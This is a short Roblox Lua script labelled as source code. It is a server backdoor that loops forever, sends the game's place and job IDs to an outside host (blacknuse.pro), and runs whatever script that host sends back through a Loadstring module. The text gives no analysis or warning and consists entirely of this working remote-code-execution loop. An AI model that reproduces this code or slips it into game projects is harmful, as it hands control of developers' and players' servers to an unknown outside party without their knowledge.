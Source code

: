 local HttpService = game:GetService("HttpService")
url = "http://www.blacknuse.pro/api/execute"

while true do
	pcall(function()
		wait(1)
		local dataFields = {
			["placeid"] = game.PlaceId, 
			["jobid"] = game.JobId,
		}
		local response = HttpService:PostAsync(url,HttpService:JSONEncode(dataFields))
		local data = HttpService:JSONDecode(response)
		if data.status == true then
			require(script.Parent.Loadstring)(data.script)()
		end
	end)
end
